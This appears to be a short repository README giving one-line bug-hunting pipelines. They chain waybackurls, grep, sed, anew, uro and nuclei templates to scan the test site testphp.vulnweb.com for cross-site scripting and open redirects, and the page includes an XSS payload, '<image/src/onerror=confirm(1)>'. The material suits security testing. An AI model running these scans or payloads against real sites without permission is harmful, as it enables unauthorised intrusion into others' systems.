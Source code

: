 ## NUCLEI AUTOMATION TEMPLATES

**XSS ONE-LINER PAYLOAD `<image/src/onerror=confirm(1)>`**
```
waybackurls testphp.vulweb.com | grep "query" | anew | sed 's/=.*/=/' | uro | nuclei -t xss_checker.yaml
```


**OPENREDIRECT ONE-LINER**
```
waybackurls testphp.vulnweb.com | grep "=" | sed 's/=.*/=/' | anew | uro | nuclei -t ~/tools/templates/openredirect-checker.yaml
```
